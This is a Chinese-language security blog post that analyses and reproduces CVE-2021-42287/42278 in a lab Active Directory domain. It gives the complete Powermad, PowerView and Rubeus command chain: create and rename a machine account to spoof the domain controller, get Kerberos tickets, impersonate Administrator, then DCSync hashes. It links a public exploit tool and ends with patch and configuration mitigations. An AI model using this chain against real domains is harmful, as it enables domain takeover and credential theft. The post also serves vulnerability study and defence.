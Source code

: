 ```yaml
---
title: CVE-2021-42287 漏洞复现及分析
date: 2021-12-18 10:50:34
tags:
---
```


# CVE-2021-42287 漏洞复现及分析

该漏洞产生的原因是由于AD没有对域内机器账户名做验证，导致绕过安全限制，经过远程身份验证的攻击者可以结合CVE-2021-42278将域内普通用户权限提升到域管理员权限。

## 概述

在域中请求ST（server ticket）票证时，首先需要提供 TGT票据。当 KDC 未找到请求的ST票证时，KDC 会自动再次搜索带有$结尾的用户。

假如域内有一台域控名为 DC（域控对应的机器用户为 DC$），此时攻击者利用漏洞 CVE-2021-42287 创建一个机器用户ZAWX$，再把机器用户ZAWX$的sAMAccountName改成DC。然后利用DC这个账号去申请一个TGT票据。申请完后再将DC的sAMAccountName改为ZAWX$。这个时候KDC就会判断域内没有DC这个用户，自动去搜索DC$（DC$是域内已经的域控DC的sAMAccountName），攻击者利用刚刚申请的TGT进行S4U2self，模拟域内的域管去请求域控DC的ST票据，最终获得域控制器DC的权限。

Privileged Attribute Certificate （PAC） 是 Kerberos 票证的扩展，其中包含有关用户权限的信息。当用户在 AD域中进行身份验证时，域控制器会将此信息添加到 Kerberos 票证中。当用户使用其 Kerberos 票证向其他系统进行身份验证时，可以读取 PAC 并用于确定其权限级别，而无需联系域控制器来查询该信息

## 复现

使用工具：powermad，powerview，rebeus（需要特定版的才会有nopac参数（[GitHub - GhostPack/Rubeus at a2470c0e6a6f9eeadd9c884e73e2f507873ac16f](https://github.com/GhostPack/Rubeus/tree/a2470c0e6a6f9eeadd9c884e73e2f507873ac16f)））

该漏洞的复现要求是需要能够修改一个机器账户的sAMAccountName和servicePrincipalName属性，通常我们可以创建一个机器账户（默认情况下，一个账号可以创建十个机器账户），这时候新机器账户的创建者就有足够的权限来修改账户属性，或者我们可以寻找一个将机器加入域时使用来的账号来进行修改属性。

先利用rubeus的nopac来获取tgt

![image-20211213163335276](/img/image-20211213163335276-4138322.png)

 再利用不带nopac参数来获取tgt

![image-20211213163440540](/img/image-20211213163440540-4138322.png)

发现长度不一样，nopac的长度要短很多，这表示可能存在漏洞。

再通过查询ms-ds-machineaccountquota来判断是否可以新建机器账户。在域外环境中我们可以利用runas /netonly /user:infosec\test cmd来创建一个cmd执行操作。

![image-20211213143704118](/img/image-20211213143704118-4138322.png)

并且检查一下**SeMachineAccountPrivileg**是否默认允许Authenticated Users

![image-20211213164220983](/img/image-20211213164220983-4138322.png)

导入powermad和powerview，利用New-MachineAccount命令来创建一个新的机器账户TestSPN

![image-20211213151725376](/img/image-20211213151725376-4138322.png)

接下来我们利用Set-DomainObject来清楚TestSPN账号中的SPN信息。

![image-20211213152018789](/img/image-20211213152018789-4138322.png)

清楚SPN后，需要将我们TestSPN账号的sAMAccountName修改为域控的机器名，这里我们的域控机器名为DC$，我们就将sAMAccountName修改为DC，修改完后，我们利用DC这个账号去请求TGT。

![image-20211213152240125](/img/image-20211213152240125-4138322.png)

![image-20211213152442697](/img/image-20211213152442697-4138322.png)

请求完后，我们将机器账户的sAMAccountName恢复成原值（修改成其他值也可以）

![image-20211213153120243](/img/image-20211213153120243-4138322.png)

修改完后，我们可以利用获取到的TGT来请求一个S4U2self票据（S4U2self是代表自身请求对其自身的kerberos服务票据），根据漏洞原理，KDC就会判断域内没有DC这个用户时就会去寻找DC$，并获取到一个利用DC$的密钥加密的ST，这里我们获取CIFS服务。

![image-20211213154025689](/img/image-20211213154025689-4138322.png)

klist查看我们获取到的票据，并执行命令验证是否成功。

![image-20211213154129640](/img/image-20211213154129640-4138322.png)

同样，我们可以将CIFS修改为LDAP，这时候我们就可以通过dcsync去获取hash

![image-20211213155427128](/img/image-20211213155427128-4138322.png)

![image-20211213155449786](/img/image-20211213155449786-4138322.png)

```
详细命令
//新建机器账户
New-MachineAccount -MachineAccount TestSPN -Domain infosec.com -DomainController DC.infosec.com -Verbose
//清楚SPN
Set-DomainObject "CN=TestSPN,CN=Computers,DC=infosec,DC=com" -Clear 'servicePrincipalname' -Domain infosec.com -DomainController DC.infosec.com -Verbose
//修改samaccountname
Set-MachineAccountAttribute -MachineAccount TestSPN -Value "DC" -Attribute samaccountname -Domain infosec.com -DomainController DC.infosec.com -Verbose
//获取TGT
Rubeus.exe asktgt /user:infosec\DC /password:123qwe!@# /domain:infosec.com /dc:dc.infosec.com /nowrap
//还原samaccountname
Set-MachineAccountAttribute -MachineAccount TestSPN -Value "TestSPN" -Attribute samaccountname -Domain infosec.com -DomainController DC.infosec.com -Verbose
//利用TGT获取ST
Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:infosec.com b /self /altservice:CIFS/DC.infosec.com /ptt /ticket:[TGT]
```



利用机器账户的另一种方法是对其账户有足够的权限来编辑其sAMAccountName属性（即对该属性的WriteProperty，或GenericWrite，或GenericAll）。
这种攻击路径还需要知道用户账户密码或哈希值（以获得TGT），这可以通过许多方式获得（例如，有针对性的Kerberoasting，影子证书，强制密码更改）。
除了机器账户的创建和SPNs的操作外，利用步骤与机器账户相同。如果账户有指向其名称的SPN，则必须删除这些SPN才能使重命名操作生效。

## 工具利用

sam_the_admin

[GitHub - WazeHell/sam-the-admin: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user](https://github.com/WazeHell/sam-the-admin)

![image-20211213161721419](/img/image-20211213161721419-4138322.png)

## 解决方案

缓解此问题的最佳方法是安装 Microsoft 修补程序 （[KB5008602](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)），此修补程序修复了PAC混淆的问题，并修复了由早期KB5008380修补程序创建的S4U2self的此问题。

将允许创建的机器账户数量设置为**0**是阻止低特权用户创建计算机帐户的快速简便修复方法，另一个相关修复方法是从*SeMachineAccountPrivilege*中删除****Authenticated Users****，并添加*域管理员*或另一组允许的帐户。



